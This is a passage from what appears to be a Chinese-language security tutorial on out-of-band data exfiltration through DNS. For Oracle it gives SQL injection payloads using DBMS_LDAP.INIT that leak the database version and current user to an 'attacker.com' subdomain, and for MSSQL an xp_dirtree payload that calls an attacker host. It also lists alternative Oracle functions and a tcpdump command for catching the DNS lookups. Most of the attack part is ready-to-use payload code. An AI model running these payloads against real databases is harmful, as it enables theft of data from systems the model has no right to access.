 **DNS**

攻击者：使用Wireshark/tcpdump观察53端口响应情况。

```
sudo tcpdump -n port 53
```

## **六、ORACLE**

### **1. 检测**

受害者

```sql
SELECT DBMS_LDAP.INIT((‘oob.dnsattacker.com',80) FROM DUAL;
```

**![信息外带漏洞(OOB)利用技巧](https://image.3001.net/images/20180911/1536630151_5b971d8769f64.png!small)**

**注：**上述功能需要更高的权限才能调用。

### 2. 利用/渗出

**受害者**

```sql
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.attacker.com',80) FROM dual;    /* Extracting Oracle database version */
```

[![信息外带漏洞(OOB)利用技巧](https://image.3001.net/images/20180911/1536630182_5b971da6a1e4c.png!small)](https://image.3001.net/images/20180911/1536630182_5b971da6a1e4c.png)

同样，我们可以使用以下payloads。

**受害者**

```
SELECT DBMS_LDAP.INIT((SELECT user FROM dual)||'.attacker.com',80) FROM dual;      /*Extracting Current user in Oracle database */
```

如果你使用的Oracle为10G或更低版本，则可以使用一些替代方法来创建DNS查询：UTL_INADDR.GET_HOST_ADDRESS, UTL_HTTP.REQUEST, HTTP_URITYPE.GETCLOB, DBMS_LDAP.INIT and UTL_TCP。

## **七、MSSQL**

### **1. 检测**

**受害者**

```sql
EXEC master..xp_dirtree '\\oob.dnsattacker.com \' –
```

[![信息外带漏洞(OOB)利用技巧](https://image.3001.net/images/20180911/1536630213_5b971dc56df6b.png!small)](https://image.3001.net/images/20180911/1536630213_5b971dc56df6b.png)
